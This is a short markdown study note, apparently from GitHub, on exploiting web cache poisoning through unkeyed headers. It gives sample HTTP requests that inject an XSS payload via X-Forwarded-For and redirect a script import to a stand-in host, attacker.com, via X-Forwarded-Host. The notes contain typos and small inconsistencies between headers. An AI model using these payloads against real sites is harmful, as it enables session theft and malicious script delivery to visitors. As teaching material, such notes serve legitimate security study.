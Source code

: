 # Exploiting web cache poisoning vulnerabilities
- web cache poisoning vulnerability arise due to general flows in the design of cache.
- other is the way the cache is implemented by a specific website can introduce unexpected quirks that can be exploited.

# Exploiting cache Design Flaws
- websites are vulnerable to web cache poisoning if they handle unkeyed input in an unsafe way and allow the subsequesnt HTTP response to be cached.

## Using Web cache Poisoning to Deliver XSS attack
- when unkeyd input is reflected in a cacheable response without proper sanitization
`request`
```js
GET /en?region=in HTTP/1.1
Host: vuln-web.com
X-Forwarded-Host: vuln-web.com
```
`response`
```js
HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://vuln-web.co.in/cms/social.png" />
```
here `X-Forwarded-For:`header is used to dynamically generate opengraph image which reflect in response, since `X-Forwarded-For:` in unkeyed, in this cache is `poisoned with response containing XSS payload`
request
```js
GET /en?region=in HTTP/1.1
Host: vuln-web.com
X-Forwarded-For: a."><script>alert(0)</script>"
```
response
```js
HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" contet="https://a."><script>alert(0)</script>"/cms/social.png" />
```
if this is cached then any user visit en?region=in endpoint would get popup and this can be becoume dengerous for stealing password and session token etc.

## Using web cache poisoning to exploit unsafe handling of resource imports
- some website use `unkeyed headers` to dynamically generate `URLs` for importing resources, such as externally hosted `javascript files` 
- in this case attacker change the value of `appropriate header` to domain that they control,  they manipulate URL to Point their own `malicious javascript file` instead

`example:`
```js
GET / HTTP/1.1
Host: vuln-web.com
X-Forwarded-Host: attacker.com
User-Agent: Mozilla/5.0 
```
response
```js
HTTP/1.1 200 OK
<script> src="https://attacker.com/static/analytics.js"></script>
```
